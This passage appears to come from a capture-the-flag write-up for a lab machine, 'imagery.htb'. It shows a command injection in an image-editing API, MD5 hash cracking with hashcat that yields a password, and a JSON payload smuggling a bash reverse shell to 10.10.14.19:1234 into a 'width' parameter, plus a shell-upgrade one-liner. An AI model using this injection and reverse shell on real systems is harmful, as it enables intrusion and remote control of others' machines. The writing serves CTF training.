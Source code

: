 And from that, we would able to figure that there’s json.db 

```bash
app/
├── app.py
├── config.py
├── utils.py
├── api_auth.py
├── api_upload.py
├── api_manage.py
├── api_edit.py
├── api_admin.py
├── api_misc.py
└── json.db
```

And also based on `app_edit.py` the endpoints only work if the user has a valid session cookie (checks `session['username']` and `session['is_testuser_account']`). 

For the vuln part: the code builds a shell command by inserting user input (`x`, `y`, `width`, `height`) into a string and runs it with `shell=True`.

<img width="544" height="678" alt="image 13" src="https://github.com/user-attachments/assets/c1e4e6c2-a32b-447c-affe-50acb2b163ab" />

Meanings, we should logged in as `testuser@imagery.htb` to and inject reverse shell inside before the request is being send.

<img width="1704" height="778" alt="image 14" src="https://github.com/user-attachments/assets/29d43bdd-71f3-46b1-b9e7-f36baea7f55b" />

### md5 password hash crack

```bash
echo 2c65c8d7bfbca32a3ed42596192384f6 > hash
hashcat -m 0 hash /usr/share/wordlists/rockyou.txt --force
hashcat -m 0 hash --show

#2c65c8d7bfbca32a3ed42596192384f6:iambatman
```

### reverse shell

<img width="1725" height="912" alt="image 15" src="https://github.com/user-attachments/assets/4890f270-e3f5-4926-959f-95c43b5f8a98" />

```json
"params":{"x":0,"y":0,"width":"210;bash -c 'bash -i >& /dev/tcp/10.10.14.19/1234 0>&1';","height":296}
```

and a little shell upgrade 

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")';
# CTRL + Z 
stty raw -echo;fg;
export TERM=xterm
```
